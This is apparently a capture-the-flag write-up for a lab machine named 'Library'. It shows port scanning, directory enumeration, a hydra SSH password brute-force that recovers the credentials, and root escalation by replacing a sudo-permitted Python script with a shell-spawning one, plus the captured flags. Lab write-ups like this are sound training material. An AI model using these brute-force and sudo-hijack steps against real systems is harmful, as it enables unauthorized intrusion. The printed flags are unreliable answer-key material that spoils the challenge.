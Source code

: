 # Library

## Links 
- 10.10.132.204/



## Port Scanning
```sh
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c4:2f:c3:47:67:06:32:04:ef:92:91:8e:05:87:d5:dc (RSA)
|   256 68:92:13:ec:94:79:dc:bb:77:02:da:99:bf:b6:9d:b0 (ECDSA)
|_  256 43:e8:24:fc:d8:b8:d3:aa:c2:48:08:97:51:dc:5b:7d (ED25519)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 3.10 - 3.13 (95%), ASUS RT-N56U WAP (Linux 3.4) (95%), Linux 3.16 (95%), Linux 5.4 (95%), Linux 3.1 (93%), Linux 3.2 (93%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (93%), Sony Android TV (Android 5.0) (93%), Android 5.0 - 6.0.1 (Linux 3.4) (93%), Android 5.1 (93%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 5 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 22/tcp)
HOP RTT       ADDRESS
1   51.13 ms  10.17.0.1
2   ... 4
5   173.88 ms 10.10.132.204

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 14.69 seconds

```
- It seem there is a ssh port there but nothing serious found!

## Directory Enum
```sh
gobuster dir -u http://10.10.132.204 -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -o directory.txt

===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.132.204
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.hta                 (Status: 403) [Size: 292]
/.htaccess            (Status: 403) [Size: 297]
/.htpasswd            (Status: 403) [Size: 297]
/images               (Status: 301) [Size: 315] [--> http://10.10.132.204/images/]
/index.html           (Status: 200) [Size: 5439]
/robots.txt           (Status: 200) [Size: 33]
/server-status        (Status: 403) [Size: 301]
Progress: 4614 / 4615 (99.98%)
===============================================================
Finished
===============================================================
  



```
## Webpage
- After trying to get into ` http://10.10.132.204` this
- we found a name `(meliodas)` who worte a blog on that website
- Lets assume it is a username for ssh
- Now we need a password

- If we go to the url `http://10.10.132.204/robots.txt`
```sh
User-agent: rockyou 
Disallow: /

```
- In this hint we can assume that we have to bruteFroce the name `meliodas` with the in built `rockyou` file
- we can use `hydra`




## BruteFrocing the ssh server
```sh
hydra -l meliodas -P /usr/share/wordlists/rockyou.txt -t 6 ssh://10.10.132.204

Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-07-13 20:35:02
[DATA] max 6 tasks per 1 server, overall 6 tasks, 14344399 login tries (l:1/p:14344399), ~2390734 tries per task
[DATA] attacking ssh://10.10.132.204:22/
[STATUS] 66.00 tries/min, 66 tries in 00:01h, 14344333 to do in 3622:19h, 6 active
[STATUS] 42.00 tries/min, 126 tries in 00:03h, 14344273 to do in 5692:11h, 6 active
[22][ssh] host: 10.10.132.204   login: meliodas   password: iloveyou1
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-07-13 20:40:28

```
- `login: meliodas   password: iloveyou1`
## Resource
- Username - `meliodas`
- Password- `iloveyou1`

## SSH remote Login
```sh
meliodas@ubuntu:~$ ls
bak.py  user.txt
meliodas@ubuntu:~$ cat user.txt 
6d488cbb3f111d135722c33cb635f4ec

```
- `sudo -l`
```sh
meliodas@ubuntu:~$ sudo -l
Matching Defaults entries for meliodas on ubuntu:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User meliodas may run the following commands on ubuntu:
    (ALL) NOPASSWD: /usr/bin/python* /home/meliodas/bak.py
```
```sh
meliodas@ubuntu:~$ ls -al
total 40
drwxr-xr-x 4 meliodas meliodas 4096 Aug 24  2019 .
drwxr-xr-x 3 root     root     4096 Aug 23  2019 ..
-rw-r--r-- 1 root     root      353 Aug 23  2019 bak.py
-rw------- 1 root     root       44 Aug 23  2019 .bash_history
-rw-r--r-- 1 meliodas meliodas  220 Aug 23  2019 .bash_logout
-rw-r--r-- 1 meliodas meliodas 3771 Aug 23  2019 .bashrc
drwx------ 2 meliodas meliodas 4096 Aug 23  2019 .cache
drwxrwxr-x 2 meliodas meliodas 4096 Aug 23  2019 .nano
-rw-r--r-- 1 meliodas meliodas  655 Aug 23  2019 .profile
-rw-r--r-- 1 meliodas meliodas    0 Aug 23  2019 .sudo_as_admin_successful
-rw-rw-r-- 1 meliodas meliodas   33 Aug 23  2019 user.txt
```
- bak.py is write protected
- lets make a copy of bak.py and remove the original one to avoid the write protection

```sh
meliodas@ubuntu:~$ cp bak.py bak.py.org
meliodas@ubuntu:~$ rm /home/meliodas/bak.py
rm: remove write-protected regular file '/home/meliodas/bak.py'? yes
meliodas@ubuntu:~$ ls
bak.py.org  user.txt

```
```sh
echo 'import pty; pty.spawn("/bin/sh")' > bak.py

meliodas@ubuntu:~$ echo 'import pty; pty.spawn("/bin/sh")' > bak.py
meliodas@ubuntu:~$ sudo python /home/meliodas/bak.py
# id
uid=0(root) gid=0(root) groups=0(root)
# ls
bak.py	bak.py.org  user.txt
# pwd
/home/meliodas
# cd ..
# cd ..
# ls
bin   etc	  initrd.img.old  lost+found  opt   run   sys  var
boot  home	  lib		  media       proc  sbin  tmp  vmlinuz
dev   initrd.img  lib64		  mnt	      root  srv   usr  vmlinuz.old
# cd  root
# ls
root.txt
# cat root.txt 
e8c8c6c256c35515d1d344ee0488c617


```
## Flags
- User = `6d488cbb3f111d135722c33cb635f4ec`
- ROOT = `e8c8c6c256c35515d1d344ee0488c617`
